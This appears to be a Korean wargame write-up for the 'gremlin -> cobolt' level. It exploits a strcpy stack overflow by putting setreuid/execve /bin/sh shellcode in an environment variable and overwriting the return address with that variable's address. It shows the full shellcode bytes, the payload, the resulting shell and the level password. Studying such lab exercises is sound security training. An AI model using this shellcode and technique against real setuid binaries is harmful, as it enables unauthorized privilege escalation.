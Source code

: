 # gremlin -> cobolt

cobolt.c는 아래와 같다.
``` C
int main(int argc, char *argv[])
{
    char buffer[16];
    if(argc < 2){
        printf("argv error\n");
        exit(0);
    }
    strcpy(buffer, argv[1]);
    printf("%s\n", buffer);
}
```
앞선 문제와 비슷하다고 생각하여 똑같은 방법으로 풀려 했으나 24byte인 쉘코드보다 작은 버퍼를 가지고 있어서 다른 방법을 고민해 보았다.
검색을 해 보니 환경변수를 이용하여 쉘을 획득할 수 있다고 하였다.
``` C
#include<stdio.h>

int main(void)
{
        printf("%p\n", getenv("shellcode"));
        return 0;
}
```
```
[gremlin@localhost gremlin]$ export shellcode=`python -c 'print "\x90"*100+"\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'`
```
위의 코드들을 통해 쉘코드를 환경변수에 등록하였다.
```
[gremlin@localhost gremlin]$ ./Address
0xbffffef7
```
쉽게 쉘 코드를 실행할 수 있는 주소를 획득할 수 있다.
payload는 NOP * 20 + \xf7\xfe\xff\xbf 이다.
```
[gremlin@localhost gremlin]$ ./cobolt `python -c 'print "\x90"*20 + "\xf7\xfe\xff\xbf"'`
÷þÿ¿
bash$ my-pass
euid = 502
hacking exposed
```
